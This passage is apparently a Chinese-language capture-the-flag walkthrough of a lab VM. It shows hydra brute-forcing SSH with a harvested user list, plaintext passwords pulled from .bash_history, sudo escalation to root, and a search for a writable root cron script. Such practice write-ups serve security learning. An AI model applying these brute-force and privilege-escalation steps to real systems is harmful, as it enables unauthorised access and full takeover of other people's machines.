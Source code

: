 ------------------------------------
3）ssh登录内核提权

ssh SHayslett@10.211.55.37
SHayslett

在home目录下存在：
AParnell  CJoo  DSwanger  elly        IChadwick  JBare  JKanode  kai     LSolum2  mel    NATHAN  RNunemaker  SHAY       SStroud  www
CCeaser   Drew  Eeth      ETollefson  jamie      jess   JLipps   LSolum  MBassin  MFrei  peter   Sam         SHayslett  Taylor   zoe

30个用户！
整理排序下，写入home_user.txt进行爆破：

hydra -L home_user.txt -P home_user.txt 10.211.55.37 ssh

grep -rn "ssh"   ---枚举当前目录下存在ssh信息的内容

JKanode/.bash_history:6:sshpass -p thisimypassword ssh JKanode@localhost
JKanode/.bash_history:8:sshpass -p JZQuyIN5 peter@localhost

发现peter用户密码：
peter
JZQuyIN5
ssh peter@10.211.55.37
JZQuyIN5
登录进去发现这是zsh的shell！

ssh JKanode@10.211.55.37
thisimypassword


4）sudo提权  
用户信息枚举就发现peter用户存在sudo提权漏洞

sudo -l
User peter may run the following commands on red:
    (ALL : ALL) ALL

和前面项目一样，直接sudo提权！
sudo su   ---成功提权root

5）计划写入文件提权

可写入sh文件漏洞利用：
[+] .sh files in path
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
You can write script: /usr/local/sbin/cron-logrotate.sh
/usr/bin/gettext.sh

find / -name cronlog 2>/dev/null    ---查看计划任务日志信息
find / -writable 2>/dev/null   ---枚举所有可写入权限的文件
find / -perm -o+w -type f 2> /dev/null | grep /proc -v   ---枚举

find / -name logrotate* 2>/dev/null  ----查找和logrotate相关的文件信息
cat /etc/cron.d/logrotate
*/5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
每五分钟运行一次cron-logrotate.sh！
